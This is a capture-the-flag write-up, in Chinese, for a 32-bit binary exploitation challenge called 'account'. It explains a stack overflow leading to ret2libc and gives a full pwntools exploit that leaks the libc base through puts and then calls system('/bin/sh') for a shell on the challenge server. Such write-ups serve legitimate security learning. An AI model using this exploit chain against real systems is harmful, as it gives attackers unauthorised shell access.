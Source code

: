 # account

## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

非常直接的栈溢出，走ret2libc那套就行。不输入0就可以一直往上输入，
输入时还会覆盖到`idx`，可以顺手将其改为指向返回地址，少循环几次，
然后输入rop的链子后以0结尾就行。

好久没做32位的题了，都忘记怎么构造rop了。32位上，发生了`call`以后，
对于子函数来说，`[esp]`是返回地址，`[esp+4]`才是参数。因此我们在构造链子的时候，
返回地址后面不应该跟参数，而是跟另一个返回地址，如下图所示。

<img src="assets/32bit_rop.png" width="60%">

> [!TIP]
> `scanf("%d")`在输入超大数字时不会自动溢出到负数，因此需要我们手动干预，
> 取数字的补码，例如对于libc这种超过`0x7fffffff`的指针，就要手动减去`1 << 32`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './account'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b *0x80492ea\nc')
    else:
        t = remote('pss.idss-cn.com', 24817)
    elf = ELF(EXE)
    libc = ELF('./libc.so.6')

    def round_input(rop: list[int]):
        bills = [1] * 10 # overflow
        bills.append(13) # write i to ret addr
        for e in rop:
            bills.append(e if e < 0x80000000 else e - (1 << 32))
        bills.append(0)  # ends up
        t.sendlineafter(b'Enter', ' '.join(map(str, bills)).encode())
        t.recvuntil(b'completed\n')

    round_input([elf.plt['puts'], elf.symbols['vul'], elf.got['puts']])
    libc_base = t.u32() - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    round_input([libc.symbols['system'], libc.symbols['exit'],
                 next(libc.search(b'/bin/sh')), 1])

    t.clean()
    t.interactive()
    t.close()
```

![flag](assets/account_flag.png)

